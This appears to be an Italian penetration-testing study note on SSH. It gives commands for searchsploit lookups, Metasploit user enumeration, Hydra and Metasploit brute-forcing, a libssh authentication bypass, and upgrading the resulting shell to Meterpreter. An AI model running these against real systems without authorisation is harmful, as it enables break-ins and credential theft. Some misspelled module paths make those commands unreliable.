 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ssh-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---
## Enumerazione degli utenti
Prima di porcedere con un attacco bruteforce, possiamo tentare di enumerare gli utenti con un modulo di Metasploit che enumera utenti sulla base del timing delle risposte e generalmente trova più utenti rispetto al bruteforce
```bash
use auxiliary/scanner/ssh/ssh_enumusers
```

---

## Bruteforce
Possiamo ora tentare di trovare delle credenziali usando il bruteforce
### Hydra
```bash
hydra -L <usernameList> -P <passwordList> -t 4 <IP> ssh
```
- `-L`: file con la lista degli username
- `-P`: file con la lista delle password
- `-t 4`: numero di thread simultanei

### Metasploit
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <IP>
set USERNAME <username>
set PASS_FILE <path_wordlist>
run
```
> **Nota:** usa velocità ridotte per evitare blocchi o ban da parte del sistema target.

---

## Accesso 
Dopo aver trovato una coppia di credenziali valide, possiamo passare alla fase di accesso. 
```bash
ssh <username>@<IP>
```
Alla prima connessione comparirà:
```bash
Are you sure you want to continue connecting (yes/no)?
```
Rispondi `yes`, poi inserisci la password.
> **Curiosità:** alcuni utenti SSH possono avere accesso root o sudo senza password in ambienti mal configurati.

---

## Altri exploit
Se il target esegue una versione di `libssh v0.6.0-0.8.0` possiamo usare il modulo
```bash
use auxiliary/scanner/ssh/libssh_auth_bypass
set RHOSTS <IP>
set SPAWN_PTY true
run
```
> `SPAWN_PTY` se impostato a `true` consentirà di genereare una sessione terminale

Questo modulo ci aprirà una sessione con un terminale visualizzabile con `sessions`
```bash
id  name  type  information
--  ----  ----  -----------
1         shell  libssh Autentication Bypass Scanner
```
utilizzabile con il comando `sessions -i 1`. <br>
possiamo anche upgradare la shell in una shell meterpeter usando il comando
```bash
sessions -u 1 
```
oppure usando il modulo 
```bash
use post/multi/menage/shell_to_meterpeter
set LHOST <IP>
set SESSION 1
run
```
per poi aprire la sessione con `sessions -i 2` <br>
`2` é il codice della nuova sessione creata.
> potrebbe generare un errore a schermo, puoi ignorarlo

---
